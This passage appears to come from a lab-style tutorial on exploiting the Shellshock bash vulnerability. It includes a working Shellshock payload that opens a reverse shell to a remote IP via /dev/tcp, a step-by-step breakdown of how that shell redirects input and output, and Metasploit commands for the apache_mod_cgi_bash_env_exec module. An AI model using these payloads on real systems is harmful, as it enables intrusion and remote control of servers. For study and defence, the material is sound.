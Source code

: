 Example (Breakdown of the reverse shell explained below):
```
() { :; }; echo; echo; /bin/bash -c "bash -i >& /dev/tcp/10.92.2.6/1234 0>&1"
```

#### Redirections and File Descriptors
In Linux/Unix, redirection controls where input and output goes. By default, commands send their output (stdout) to the terminal and read input (stdin) from the keyboard. Redirection allows us to change this behavior using symbols like `>` (to redirect output), `>>` (to append output), and `<` (to redirect input). File descriptors are used to represent input/output streams:
- `0` = Standard Input (stdin): Where commands read input (normally the keyboard).
- `1` = Standard Output (stdout): Where commands send normal output (normally the terminal).
- `2` = Standard Error (stderr): Where commands send error messages (normally the terminal)
When using `>&`, the `&` specifies which file descriptors are being redirected. For example, you could specify something like `>&2`which would mean to redirect the output to the same place as the standard error etc. Using  `>&` where the file descriptor after `&`  isn't specified would mean redirects both stdout (1) and stderr (2) to the same destination.
##### Reverse Shell Breakdown
```
bash -i >& /dev/tcp/10.92.2.6/1234 0>&1
```
1. `bash -i`: This starts an interactive Bash shell, keeping the shell open to accept and execute commands.
2. `>&`: Redirects both the standard output (1) and standard error (2) 
3. **`/dev/tcp/10.92.2.6/1234`**: This tells the system to send both the standard output and error output to a remote IP (`10.92.2.6`) over TCP via port `1234` . The `/dev/tcp/` is a special file system in Linux that allows the creation of network connections by writing to a specific IP and port using `/dev/tcp/[IP]/[PORT]`. 
4. `0>&1`: This redirects stdin (0) to the same destination as stdout (1). The standard output has already been redirected to the remote IP so instead of reading input from the terminal, the shell will now read input from the network connection (i.e., from the attack box).

As a result, the attacker can send commands to the shell over the network (via stdin), and the shell will send back both normal output and error messages (via stdout and stderr) to the remote machine.

#### Performing the Exploit using Metasploit

There will be an auxiliary scanner for shellshock which checks for the vulnerability (`auxiliary/scanner/http/apache_mod_cgi_bash_env`) we can just go with the exploit module (`exploit/multi/http/apache_mod_cgi_bash_env_exec`). You'll likely need to setup the `RHOST` for the target and the `TARGETURI` for the cgi script location.
```
service postgresql start && msfconsole

### (OPTIONAL) search shellshock ###

use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOST 10.55.21.43
set TARGETURI /test.cgi
exploit
```
	